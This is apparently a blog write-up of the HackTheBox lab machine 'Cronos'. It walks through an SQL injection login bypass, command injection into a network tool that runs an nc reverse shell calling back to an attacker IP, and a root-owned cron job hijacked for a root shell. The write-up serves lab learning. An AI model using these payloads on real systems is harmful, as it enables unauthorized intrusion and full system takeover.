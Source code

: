 ```yaml
---
layout: post
title:  "HackTheBox -  Cronos"
date:   2020-1-2 00:10:00 +0000
categories: htb
---
```


# Nmap scan
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
# pwning user
The presence of port 53 being open hinted to me that virtual host routing may be involved. Edit /etc/hosts file to add `cronos.htb` for a site to resolve.
Resolving the host also returns 'admin.cronos.htb' so add that too.

The admin subdomain automatically stood out so i went to the page and found a login form. Basic sql injection ('OR 1=1# and any password) bypasses the login and allows us entry into the page. 
"Net Tool v0.1" allows us to input code to execute but we can inject our own by adding a semicolon after the expected address. Inject a basic bash reverse shell and run a listener to recieve a shell.
```
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1234 >/tmp/f 
```
We can now grab user.txt

# Gaining root
As the box name suggests this proceedure may involve a cronjob. Doing a check for jobs returns the following;
```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

From this it appears that root is executing the file 'artisan' on a regular cron. If we replace the file in this location with one under the same name it should execute as root. Placing a shell here executes when the cron triggers and gives us a shell as root.
```console
listening on [any] 9150 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.13] 44730
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:57:01 up 3 days,  1:20,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
```
Can now grab the root flag and cleanup.

